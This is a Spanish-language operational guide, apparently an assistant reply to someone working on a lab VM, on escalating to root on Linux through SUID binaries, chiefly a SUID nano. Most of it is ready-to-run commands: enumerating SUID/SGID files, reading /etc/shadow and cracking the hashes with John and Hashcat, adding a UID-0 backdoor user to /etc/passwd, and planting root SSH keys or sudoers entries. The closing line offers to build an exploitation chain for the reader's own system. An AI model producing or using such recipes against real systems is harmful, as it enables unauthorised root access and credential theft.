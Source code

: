Resumen operativo — SUID/SGID, enumeración y abuso con `nano` SUID

1. Conceptos

* SUID (04000): el binario se ejecuta con el UID del dueño (p. ej., root).
* SGID (02000): el binario se ejecuta con el GID del grupo dueño.
* Indicador: permiso con “s” en la posición de usuario (SUID) o grupo (SGID).

2. Enumeración

* Solo SUID:

  ```
  find / -type f -perm -04000 -ls 2>/dev/null
  ```
* Solo SGID:

  ```
  find / -type f -perm -02000 -ls 2>/dev/null
  ```
* Referencia de abusos:

  ```
  https://gtfobins.github.io/#+suid
  ```

3. Caso práctico: `nano` con SUID
   Objetivo: leer/escribir archivos como root. No da shell directa; permite saltos intermedios.

A) Vector 1 — Leer `/etc/shadow` y crackear

* Leer:

  ```
  nano /etc/shadow
  ```

  Copia su contenido a `shadow.txt`. Copia `/etc/passwd` a `passwd.txt`.
* Unificar y crackear con John:

  ```
  unshadow passwd.txt shadow.txt > hashes.txt
  john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
  john --show hashes.txt
  ```
* Con Hashcat (sha512crypt = modo 1800):

  ```
  # si extraes solo hashes $6$...
  hashcat -m 1800 hashes.txt /usr/share/wordlists/rockyou.txt
  hashcat -m 1800 hashes.txt --show
  ```

B) Vector 2 — Alta de usuario con UID 0 en `/etc/passwd`

* Generar hash sha512crypt de tu contraseña:

  ```
  openssl passwd -6 'TuClaveFuerte'
  ```

  Resultado: cadena que comienza con `$6$...`
* Editar `/etc/passwd` con `nano` SUID y añadir una línea:

  ```
  pwn:$6$SALTyHASH...:0:0:root:/root:/bin/bash
  ```

  Campos: usuario\:hash\:UID\:GID\:comentario\:home\:shell
  Clave: UID=0 y GID=0 ⇒ privilegios de root.
* Cambiar a ese usuario:

  ```
  su pwn
  id
  ```

C) Alternativas viables con `nano` SUID (según políticas PAM/sudo)

* Escribir clave pública en `/root/.ssh/authorized_keys` (si permisos de ruta lo permiten).
* Editar archivos de servicio para inyectar comandos en arranque (riesgoso).
* Modificar `/etc/sudoers` o crear `/etc/sudoers.d/usuario` (requiere permisos 0440 y sintaxis válida; si no se respetan, `sudo` lo ignora).

4. Comprobaciones y validación

* Verificar SUID en `nano`:

  ```
  ls -l $(which nano)
  # ejemplo: -rwsr-xr-x 1 root root ... /bin/nano   (la 's' en usuario)
  ```
* Confirmar que `nano` efectivamente escribe como root:

  ```
  nano /root/probe.txt
  ls -l /root/probe.txt   # owner root
  ```

5. Consideraciones

* `find ... -perm -04000` lista SUID, no SGID.
* Mantén copias y no corrompas `/etc/passwd`/`/etc/shadow`. Un error de formato bloquea logins.
* Si el sistema usa shadow, un usuario con hash en `/etc/passwd` pero sin entrada en `/etc/shadow` suele funcionar; depende de PAM.

Si necesitas un flujo exacto para tu VM (desde descubrimiento de `nano` SUID hasta `su pwn`), indícame qué binarios adicionales con SUID aparecieron en tu `find` y te doy la cadena de explotación mínima.
